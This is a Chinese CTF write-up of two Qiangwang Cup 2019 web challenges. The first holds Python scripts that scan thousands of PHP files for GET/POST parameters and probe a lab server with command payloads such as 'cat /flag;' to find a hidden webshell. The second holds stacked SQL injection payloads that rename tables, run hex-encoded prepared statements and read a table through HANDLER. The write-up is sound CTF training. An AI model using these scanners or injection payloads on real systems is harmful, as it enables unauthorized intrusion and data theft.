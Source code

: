 ## [强网杯 2019]高明的黑客



这题在buu上做实在是太折磨人🌶
buu上的环境扫描快了就报429，而这题保守估计有几万条数据要处理，假设我一秒10条，也要两三个小时
打开本题源码的时候我是懵的，几千个文件，然后搜了一下**eval**，其实也就几千个
这个时候我还是很有信心的，就是找到文件里的所有马然后一个个试，看哪个能用嘛

用我的烂python写了一个烂脚本(写了很久很久很久)

```python
import sys
import os
import re
from turtle import st
import requests
import time

path=r"E:\phpstudy_pro\WWW\test\src"
print(path)
files=os.listdir(path)  #得到所有文件名输出到一个表里面
url='http://2fd5d67b-3795-4fd9-a545-d7dc79a145ff.node4.buuoj.cn:81/'

for file in files:
    f=open(path+"\\"+file,"r")
    text=f.readlines()
    f.close()
    #print(text)
    for line in text:
        start1=line.find("$_GET[")#开始只找了包含eval的
        if start1!=-1:
            #print(line)
            end=line.find("']")
            php=r'=cat /flag;'
            #print(line[start1+12:end])
            GET=file+'?'+line[start1+7:end]+php
            time.sleep(0.05)
            r=requests.get(url+GET)
            if('flag'in r.text):
                print(line)
                print(GET)
                exit('you get the flag!!!')
                print(r.text)
            else :
                print('no')
                print(url+GET)
        start2=line.find("$_POST[")
        if start2!=-1:
            #print(line)
            end=line.find("']")
            POST=line[start2+8:end]
            data={f'{POST}':'cat /flag;'}
            time.sleep(0.05)
            r=requests.post(url=url+file,data=data)
            if('flag'in r.text):
                print(line)
                print('you get the flag!!!')
                exit(0)
            else :
                print('no')
                print(url+POST)
```

然后跑了十几分钟就跑完了，什么也没有

在我测试了许久确定我的脚本没有问题之后，就去看了WP
原来题目的意思是，只要有`$_GET`或者`$_POST`的都算马
上面的脚本就是按这个来的，也就是按这样来的话，我跑到环境结束也跑不出来
就直接看了是哪个文件的马，单独测试了一下发现脚本没问题就🆗了
贴一个大佬的巨快速脚本，要是没有429就好了😫

```python
import requests
import os
import re
import threading
import time

session = requests.Session()   
session.keep_alive = False  # requests默认使用urllib3库，默认是长连接，改为false,关闭多余的连接
requests.adapters.DEFAULT_RETRIES = 8  # 设置重连次数，防止线程数过高，断开连接
sem = threading.Semaphore(30)  # 设置最大线程数 ,别设置太大，不然还是会崩的挺厉害的，跑到关键的爆炸，心态就爆炸了

url = "http://2fd5d67b-3795-4fd9-a545-d7dc79a145ff.node4.buuoj.cn:81/"


path = r"E:\phpstudy_pro\WWW\test\src"+"\\"

rrGET = re.compile(r"\$_GET\[\'(\w+)\'\]")  # 匹配get参数，w 匹配任何字母和数字还有下划线，+ 匹配+之前的1次或多次

rrPOST = re.compile(r"\$_POST\[\'(\w+)\'\]")  # 匹配post参数

fileNames = os.listdir(path)  # 列出目录中的文件,以每个文件都开一个线程

flags = []  # 用于存所有的注入点信息,下面的flag表示注入点的信息，php文件名和参数名

local_file = open("flag.txt", "w", encoding="utf-8")


def run(fileName):
    with sem:
        file = open(path + fileName, 'r', encoding='utf-8')
        content = file.read()
        print("[+]checking:%s" % fileName)
        # 测试get的参数
        for i in rrGET.findall(content):
            r = session.get(url + "%s?%s=%s" % (fileName, i, "echo 'h3zh1';"))
            print(url + "%s?%s=%s" % (fileName, i, "echo h3zh1;"))
            if "h3zh1" in r.text:
                flag = "You Find it in GET fileName = %s and param = %s \n" % (fileName, i)
                print(flag)
                local_file.write(flag)
                exit(0)
        # return
    # 测试post的参数
    # for i in rrPOST.findall(content):
    #     r = session.post( url + fileName , data = { i : "echo h3zh1;" } )
    #     if "h3zh1" in r.text:
    #         flag = "You Find it in POST: fileName = %s and param = %s \n" % ( fileName, i )
    #         print(flag)
    #         local_file.writelines(flag)

if __name__ == '__main__':
    start_time = time.time()  # 开始时间
    print("[start]程序开始:" + str(start_time))
    thread_list = []
    for fileName in fileNames:
        t = threading.Thread(target=run, args=(fileName,))
        thread_list.append(t)
    for t in thread_list:
        t.start()
    for t in thread_list:
        t.join()
    end_time = time.time()
    local_file.close()  # 关文件
    print("[end]程序结束:用时:" + str(end_time - start_time))

```

然后自己搭了这题的环境，用大神的脚本过了下瘾

![image-20220728013239937](D:\Typora\note\CTF\web\强网杯.assets\image-20220728013239937.png)

过搭环境的瘾和看脚本飞速运行的瘾



## [强网杯 2019]随便注(有意思的思路和方法)



`1' or 1=1;#`  证明存在sql注入

![image-20220519224923311](D:\Typora\note\CTF\web\强网杯.assets\image-20220519224923311.png)

随便输个select

![image-20220519225157158](D:\Typora\note\CTF\web\强网杯.assets\image-20220519225157158.png)

看见了正则匹配的字符

由于select不能用了，于是想到用table代替，但查数据库版本发现为10，用不了table

于是试试联合注入

![image-20220519225848310](D:\Typora\note\CTF\web\强网杯.assets\image-20220519225848310.png)

注出列名

```mysql
1';show columns from `1919810931114514`;#
```

<font color='blured'>纯数字的表必须带上反引号!!!</font>

![image-20220519230109408](D:\Typora\note\CTF\web\强网杯.assets\image-20220519230109408.png)

![image-20220519230908651](D:\Typora\note\CTF\web\强网杯.assets\image-20220519230908651.png)

联合注入可以，绕过的<font color='pink'>骚</font>姿势就多了

#### 解法①

1.通过 rename 先把 words 表改名为其他的表名。

2.把 1919810931114514 表的名字改为 words 。

3 .给新 words 表添加新的列名 id 。

4.将 flag 改名为 data 。

```mysql
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#
```

然后输入1就可查到flag

#### 解法②

将select * from ` `1919810931114514` `进行16进制编码

构造payload

```mysql
1;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```

* prepare…from…是预处理语句，会进行编码转换
* execute用来执行由SQLPrepare创建的SQL语句
* SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值

#### 解法③

类似于[GYCTF2020]Blacklist

使用了handler

直接上payload

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#
1';handler `1919810931114514` open; handler `1919810931114514` read first;handler `1919810931114514` close;#
1'; handler `1919810931114514` open; handler `1919810931114514` read next;#
```

三种方法实际上一模一样

打开文件，查看文件~
